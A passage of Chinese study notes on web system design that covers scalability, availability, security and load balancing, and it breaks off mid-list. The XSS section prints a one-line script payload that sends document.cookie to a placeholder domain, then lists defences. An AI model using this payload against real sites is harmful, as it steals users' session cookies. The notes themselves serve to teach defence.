 可以通过负载均衡器向集群中添加新的服务器，来增强整个集群的处理能力。

如果系统存在伸缩性问题，那么单个用户的请求可能会很快，但是在并发数很高的情况下系统会很慢。

### 三、可扩展性
可扩展性是软件系统应对需求增加或需求变化的能力。 添加新功能时对现有系统的其它应用无影响，要求不同应用具备低耦合的特点。

实现可扩展主要有两种方式：
1. 使用消息队列进行解耦，应用之间通过消息传递进行通信；
2. 使用分布式服务将业务和可复用的服务分离开来，业务使用分布式服务框架调用可复用的服务。新增的产品可以通过调用可复用的服务来实现业务逻辑，对其它产品没有影响。

### 四、可用性
可用性是系统无故障运行的时间占比。保证高可用的主要手段是使用冗余，当某个服务器故障时就请求其它服务器。

应用服务器的冗余比较容易实现，只要保证应用服务器不具有状态，那么某个应用服务器故障时，负载均衡器将该应用服务器原先的用户请求转发到另一个应用服务器上，不会对用户有任何影响。

存储服务器的冗余需要使用主从复制来实现，当主服务器故障时，需要提升从服务器为主服务器，这个过程称为切换。

应用服务器和存储服务器？？？

### 五、安全性
1. SQL 注入攻击

2. 跨站脚本攻击 XSS
可以将代码注入到用户浏览的网页上，包括 HTML 和 JavaScript。
```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```
危害： 窃取用户的 Cookie、伪造虚假的输入表单骗取个人信息、显示伪造的文章或者图片

防范手段：
- 设置 Cookie 为 HttpOnly，可以防止 JavaScript 脚本调用，就无法通过 document.cookie 获取用户 Cookie 信息
- 过滤特殊字符

3. 跨站请求伪造 CSRF

4. 拒绝服务攻击 DoS，目的在于使目标电脑的网络或系统资源耗尽，使服务暂时中断或停止，导致其正常用户无法访问


## 集群
将多台服务器组成集群，使用**负载均衡**将请求转发到集群中，避免单一服务器的负载压力过大导致性能降低。

### 负载均衡
集群中的应用服务器（节点）通常被设计成无状态，用户可以请求任何一个节点。负载均衡器会根据集群中每个节点的负载情况，将用户请求转发到合适的节点上。

运行过程：
1. 根据负载均衡算法得到转发的节点；
2. 进行转发

负载均衡器可以实现高可用及伸缩性：
- 高可用：当某个节点故障时，负载均衡器会将用户请求转发到另外的节点上，从而保证所有服务持续可用；
- 伸缩性：根据系统整体负载情况，可以很容易地添加或移除节点。

### 负载均衡算法
1. 轮询： 轮询算法把每个请求轮流发送到每个服务器上，适用于每个服务器的性能差不多的场景，如果有性能存在差异的情况下，那性能较差的服务器可能无法承担过大的负载
